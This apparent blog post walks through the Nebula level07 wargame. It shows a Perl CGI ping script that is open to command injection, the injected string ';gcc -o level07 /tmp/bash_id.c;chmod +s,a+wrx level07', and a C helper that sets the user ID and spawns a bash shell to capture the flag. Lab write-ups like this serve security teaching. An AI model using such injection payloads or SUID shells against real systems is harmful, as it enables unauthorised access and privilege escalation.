 ```yaml
---
title: "Exploit Exercises - Nebula 07"
date: "2011-12-08T06:10:00-05:00"
comments: true
highlight: "true"
categories:
 - Nebula
 - wargames
 - linux
 - exploit-exercises
 - suid
 - hacking
---
```


This [next challenge](http://exploit-exercises.com/nebula/level07) is a little bit more tricky than some of the previous ones.  There's a lot more code involved, but it's not too bad.

<!-- more -->

In the flag07 home directory, you'll find the configuration for a simple http server, thttpd.conf.  Inside, you'll find that it's running an HTTP server on port 7007 as the flag07 user.  This is where the perl script that is provided comes in.

```
#!/usr/bin/perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub ping {
 $host = $_[0];

 print("<html><head><title>Ping results</title></head><body><pre>");

 @output = `ping -c 3 $host 2>&1`;
 foreach $line (@output) { print "$line"; } 

 print("</pre></body></html>");  }  # check if Host set. if not, display normal page, etc  

 ping(param("Host"));
```

You can now browse to this script by going to http://<nolink>10.1.1.16:7007/index.cgi (assuming your Nebula VM is running on 10.1.1.16).  Unfortunately, since no parameters are being passed, it presents us with the usage of ping. 

```
Usage: ping [-LRUbdfnqrvVaAD] [-c count] [-i interval] [-w deadline]
            [-p pattern] [-s packetsize] [-t ttl] [-I interface]
            [-M pmtudisc-hint] [-m mark] [-S sndbuf]
            [-T tstamp-options] [-Q tos] [hop1 ...] destination
```

The perl script takes a parameter named "Host", and pipes it into the ping command.  Because of how poorly the perl script was written, we can inject more commands in there.  To make it easy, I made a quick HTML document to assist, so I didn't have to do the encoding of spaces and symbols. 

```
<html> <body>
  <form action="http://10.1.1.6:7007/index.cgi" method="get">
   <input name="Host" id="Host" type="text" />
   <input type="submit" />
  </form>
 </body>
</html>
```

Now I can open that html file in my browser of choice, and when I submit, it'll automatically do all the encoding for me, so I can just worry about the injection. 

In addition to the html page, I also modified my level03.c from a prior post, to make it more generic.  I saved this file as /tmp/bash_id.c: 

```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main(int argc, char *argv[]){
    if (argc != 2)
        printf("usage: %s <user id>\n", argv[0]);
    else {
        int i = atoi(argv[1]);
        setresuid(i, i, i);
        setresgid(i, i, i);
        system( "/bin/bash" );
    }
    return 0;
}
```

This modified source file now takes a parameter of the user id you want to impersonate.  I want to impersonate the flag07 user, so I checked out the /etc/passwd file. 

```
level07@nebula:/tmp$ cat /etc/passwd | grep flag07
flag07:x:992:992::/home/flag07:/bin/sh
```

Now I know that flag07 is also user 992. 

I opened the html file that I made, and in the textbox typed:  

```
;gcc -o level07 /tmp/bash_id.c;chmod +s,a+wrx level07
```

When I clicked the submit button, it sent the final command of:  

```
ping -c 3 ;gcc -o level07 /tmp/bash_id.c;chmod +s,a+wrx level07 2>&1
```

It makes the ping program have incorrect usage, thus ending quickly.  It then compiles my newly written bash_id.c script, and places the executable in the /home/flag07 folder, and marks it executable and SUID.  From here, it was just as simple as executing that program with the 992 parameter, and running "getflag".

```
level07@nebula:/home/flag07$ ./level07 992
flag07@nebula:/home/flag07$ getflag
You have successfully executed getflag on a target account
```
